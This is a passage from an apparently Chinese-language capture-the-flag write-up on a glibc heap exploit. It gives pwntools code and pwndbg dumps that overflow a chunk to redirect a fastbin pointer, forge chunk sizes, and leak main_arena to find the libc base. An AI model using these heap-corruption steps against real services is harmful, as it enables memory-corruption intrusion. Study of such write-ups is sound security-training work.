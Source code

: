 ```python
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
```

修改成功后如下

```shell
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000:	0x0000000000000000	0x0000000000000021
0x55a03ca22010:	0x6161616161616161	0x6161616161616161
0x55a03ca22020:	0x0000000000000000	0x0000000000000021
0x55a03ca22030:	0x000055a03ca22080	0x0000000000000000
0x55a03ca22040:	0x0000000000000000	0x0000000000000021
0x55a03ca22050:	0x0000000000000000	0x0000000000000000
0x55a03ca22060:	0x0000000000000000	0x0000000000000021
0x55a03ca22070:	0x0000000000000000	0x0000000000000000
0x55a03ca22080:	0x0000000000000000	0x0000000000000091
0x55a03ca22090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

那么，当我们再次申请两个时，第二个申请到的就是idx 4处的chunk。为了能够申请成功，我们需要确保 idx4 的size 与当前 fastbin 的大小一致，所以，我们得修改它的大小。申请成功后，idx2会指向idx4。

```python
    # if we want to allocate at idx4, we must set it's size as 0x21
    payload = 0x10 * 'a' + p64(0) + p64(0x21)
    fill(3, len(payload), payload)
    allocate(0x10)  # idx 1
    allocate(0x10)  # idx 2, which point to idx4's location
```

之后，如果我们想要将 idx 4 放到 unsorted bin 中的话，为了防止其与top chunk 合并，我们需要再次申请一个chunk。此后再释放 idx4 就会进入 unsorted bin中去了。此时由于 idx2 也指向这个地址，所以我们直接展示他的内容就可以得到unsorted bin的地址了。

```python
    # if want to free idx4 to unsorted bin, we must fix its size
    payload = 0x10 * 'a' + p64(0) + p64(0x91)
    fill(3, len(payload), payload)
    # allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
    allocate(0x80)  # idx 5
    free(4)
    # as idx 2 point to idx4, just show this
    dump(2)
    p.recvuntil('Content: \n')
    unsortedbin_addr = u64(p.recv(8))
    main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
    log.success('main arena addr: ' + hex(main_arena))
    main_arena_offset = 0x3c4b20
    libc_base = main_arena - main_arena_offset
    log.success('libc base addr: ' + hex(libc_base))
```
